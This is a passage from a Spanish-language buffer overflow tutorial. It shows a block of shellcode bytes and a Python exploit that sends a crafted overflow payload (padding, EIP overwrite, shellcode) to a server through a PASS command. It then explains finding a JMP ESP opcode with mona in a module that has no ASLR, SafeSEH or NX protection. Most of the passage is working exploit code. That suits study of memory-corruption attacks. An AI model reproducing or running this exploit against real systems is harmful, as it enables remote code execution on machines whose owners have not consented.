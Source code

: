 ```bash
b"\x17\x66\x16\x06\x64\x1b\x21\xdd\x16\xc7\xa4\xc5\xb1\x8c"
b"\x1f\x21\x43\x40\xf9\xa2\x4f\x2d\x8d\xec\x53\xb0\x42\x87"
b"\x68\x39\x65\x47\xf9\x79\x42\x43\xa1\xda\xeb\xd2\x0f\x8c"
b"\x14\x04\xf0\x71\xb1\x4f\x1d\x65\xc8\x12\x4a\x4a\xe1\xac"
b"\x8a\xc4\x72\xdf\xb8\x4b\x29\x77\xf1\x04\xf7\x80\xf6\x3e"
b"\x4f\x1e\x09\xc1\xb0\x37\xce\x95\xe0\x2f\xe7\x95\x6a\xaf"
b"\x08\x40\x3c\xff\xa6\x3b\xfd\xaf\x06\xec\x95\xa5\x88\xd3"
b"\x86\xc6\x42\x7c\x2c\x3d\x05\x43\x19\x3d\xb1\x2b\x58\x3d"
b"\x38\x17\xd5\xdb\x50\x77\xb0\x74\xcd\xee\x99\x0e\x6c\xee"
b"\x37\x6b\xae\x64\xb4\x8c\x61\x8d\xb1\x9e\x16\x7d\x8c\xfc"
b"\xb1\x82\x3a\x68\x5d\x10\xa1\x68\x28\x09\x7e\x3f\x7d\xff"
b"\x77\xd5\x93\xa6\x21\xcb\x69\x3e\x09\x4f\xb6\x83\x94\x4e"
b"\x3b\xbf\xb2\x40\x85\x40\xff\x34\x59\x17\xa9\xe2\x1f\xc1"
b"\x1b\x5c\xf6\xbe\xf5\x08\x8f\x8c\xc5\x4e\x90\xd8\xb3\xae"
b"\x21\xb5\x85\xd1\x8e\x51\x02\xaa\xf2\xc1\xed\x61\xb7\xe2"
b"\x0f\xa3\xc2\x8a\x89\x26\x6f\xd7\x29\x9d\xac\xee\xa9\x17"
b"\x4d\x15\xb1\x52\x48\x51\x75\x8f\x20\xca\x10\xaf\x97\xeb"
b"\x30")

payload = before_eip + eip + shellcode

def exploit():
    # Create a socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    # Connect to the server
    s.connect((ip_add, port))

    # Receive banner
    banner = s.recv(1024)

    # Send data
    s.send(b"USER bof" + b"\r\n")
    s.send(b"PASS " + payload + b"\r\n")
    s.close()

if __name__ == '__main__':
    exploit()
```

## Buscar OPCode

Este shellcode será insertado en el stack pero para que este sea interpretado y ejecutado, el EIP deberá apuntar al ESP ya que es ahí en donde estará el shellcode. 

El EIP no puede apuntar directamente al ESP por lo que deberá apuntar a una sección de memoria en la que como OPCode se aplique un JMP ESP, es decir, un jump al ESP.

Para encontrar esto, primero se buscará un módulo con mona en el que las primeras cuatro columnas de protecciones estén en “False” (Rebase, SafeSEH, ASLR y NXCompact):

```bash
!mona modules
```

